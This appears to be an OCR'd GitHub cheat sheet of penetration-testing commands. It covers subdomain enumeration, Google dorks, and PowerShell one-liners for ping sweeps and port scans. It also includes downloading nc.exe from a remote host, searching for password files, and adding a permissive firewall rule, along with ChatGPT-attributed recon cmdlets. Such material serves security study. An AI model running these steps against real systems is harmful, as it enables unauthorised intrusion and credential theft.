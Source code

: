 
============================================================================
#subdomain enumeration websites
https://dnsdumpster.com/

Google Dorks

site:*.domain.com -www
site:..domain.com -www
site:*.domain.com ext:pdf
site:*.domain.com ext:php

amass enum -passive -dir /tmp/amass_output/ -d example.com -o dir/example.com
============================================================================
#powershell

PS C:\> 1..255 | % {echo "10.10.10.$_";ping -n 1 -w 100 10.10.10.$_ | Select-String ttl} #ping sweep
PS C:\> 1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("10.10.10.10",$_)) "Port $_ is open!"} 2>$null #port scan
PS C:\> (New-Object System.Net.WebClient).DownloadFile("http://10.10.10.10/nc.exe","nc.exe") #Fetch a file via HTTP (wget in PowerShell)
PS C:\> Get-ChildItem "C:\Users\" -recurse -include *passwords*.txt #Find all files with a par ticular name
PS C:\> Get-HotFix #Get a listing of all installed Microsoft Hotfixes

#Navigate the Windows registry
PS C:\> cd HKLM:\
PS HKLM:\> ls

PS C:\> Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\run #List programs set to star t automatically in the registr y
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes("PSFTW!")) #Conver t string from ascii to Base64

#List and modify the Windows firewall rules
PS C:\> Get-NetFirewallRule –all
PS C:\> New-NetFirewallRule -Action Allow -DisplayName LetMeIn -
RemoteAddress 10.10.10.25
============================================================================
# information gathering, ChatGPT
Get-NetAdapter: displays a list of network adapters on a system, along with their configuration information.
Get-NetIPAddress: displays a list of IP addresses assigned to a system, along with their configuration information.
Get-NetRoute: displays a list of routing table entries on a system, which can help to identify the network topology.
Get-NetTCPConnection: displays a list of all TCP connections on a system, which can help to identify active connections and the remote systems they are connected to.
Get-NetUDPEndpoint: displays a list of all UDP endpoints on a system, which can help to identify active connections and the remote systems they are connected to.

Get-Process: displays a list of all running processes on a system, along with their resource usage.
Get-Service: displays a list of all running services on a system, along with their configuration information.
